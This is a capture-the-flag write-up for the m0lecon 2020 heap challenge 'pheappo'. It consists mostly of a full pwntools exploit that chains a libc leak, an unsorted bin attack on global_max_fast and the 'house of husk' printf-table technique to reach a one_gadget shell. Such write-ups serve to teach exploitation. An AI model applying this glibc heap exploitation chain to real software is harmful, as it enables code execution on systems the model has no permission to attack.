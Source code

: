 ```yaml
---
ctf_name: "m0lecon 2020"
layout: writeup
title:	"pheappo"
date:	2020-11-16
category: "pwn"
author: "NicolaVV"
---
```


### Chall Description

That was a standard heap pwnable with some restrictions:
- Can alloc only chunks with size in range(1040, 38400), which goes to unsorted bin after free
- UAF possible, but not double free because of some additionals checks enforced with the global array `bitmap`
- Can't overwrite malloc_hook and free_hook

To exploit under those conditions I ended up using this known technique which i didn't know the existence of, [house of husk](https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507), pretty cool exploit chain which make use of a very strange printf functionality... did you know that

> The GNU C Library lets you define your own custom conversion specifiers? 

No? Well neither me. Find out more about this at [http://www.gnu.org/software/libc/manual/html_node/Customizing-Printf.html](http://www.gnu.org/software/libc/manual/html_node/Customizing-Printf.html)

The exploit is mainly an implementation of `house-of-husk` technique so I'm not gonna explain it deeply, since you can find more detailed information in the linked post. I tried to divide the epxloit in sections the post author's did, so it should be easier to follow it. 

Thanks to the organizers for those nice challenges, actually learnt a lot of new stuffs :).

### Exploit

```py
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF("pheappo")
libc = ELF("libc.so.6")

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote("challs.ctf.m0lecon.it", 9001)
    else:
        return process([exe.path] + argv, env={'LD_PRELOAD': "./libc.so.6"}, *a, **kw)

def flush():
    return io.recvuntil(b'Choice: ', drop=True)

def create(sz):
    io.sendline(b'1')
    io.recvuntil(b'Size: ')
    io.sendline(f'{sz}'.encode())
    return flush()

def read(idx):
    io.sendline(b'2')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    leak = io.recvuntil(b'<=== Menu ===>', drop=True)
    flush()
    return leak

def write(idx, data):
    io.sendline(b'3')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    io.recvuntil(b'Data: ')
    io.sendline(data)
    return flush()

def delete(idx):
    io.sendline(b'4')
    io.recvuntil(b'Index: ')
    io.sendline(f'{idx}'.encode())
    return flush()

def quit():
    io.sendline(b'5')


if __name__ == "__main__":       
    io = start()
    
    # 1) Leak libc address
    create(1040) # to leak libc_main_arena with UAF
    '''
    2 chunks to achieve relative a overwrite with free
    more on this tecnique @ https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unsorted_bin_attack/
    - briefly, after setting global_max_fast to a big value, every chunk is gonna be treated as a 
    fastbin chunk, so every free is gonna put the chunk in main_arena.fastbinsY[out_of_bound_idx], achieving
    an out of bound write of a heap pointer in the libc
    E.G)
        - size=1040 + 0x10*i writes to main_arena + 528 + i*8
    '''
    get_i = lambda off_from_arena : (off_from_arena - 528) // 8
    create(1040 + 0x10 * get_i(libc.sym.__printf_arginfo_table - libc.sym.main_arena))
    create(1040 + 0x10 * get_i(libc.sym.__printf_function_table - libc.sym.main_arena))

    delete(0)
    chunk0leak = read(0)
    # leak &main_arena.unsortedbin
    libc_mainarena_unsortedbin = u64(chunk0leak[:8])

    libc.address = libc_mainarena_unsortedbin - 2116768
    log.info(f'libc_base: {libc.address:x}')
    onegadget = libc.address + 0x4f322 - 0x1e7000
    log.info(f'one_gadget: 0x{onegadget:x}')

    # forge fake __printf_arginfo_table so that tbl['%d'] = one_gadget
    fake_tbl = flat({ 
        784 : onegadget, # 0x4f322 0x10a38c
    }, filler=b'\x00')

    # 2) Make global_max_fast large with unsorted bin attack
    global_max_fast = libc.address + 2124096
    log.info('Do unsorted bin attack to overwrite global_max_fast...')
    where = global_max_fast-0x10
    write(0, p64(0) + p64(where))
    create(1040)

    # 3) Write the address of a fake arginfo table to __printf_arginfo_table by "relative overwrite"
    log.info('Write chunk1payload_ptr-0x10 to __printf_arginfo_table...')
    write(1, fake_tbl)
    delete(1)

    # 4) Write a non-null value to __printf_function_table by "relative overwrite"
    log.info('Write chunk2payload_ptr-0x10 to __printf_function_table...')
    delete(2)

    # 5) call printf to call onegadget
    log.success("Get shell")
    quit()

    io.interactive()
```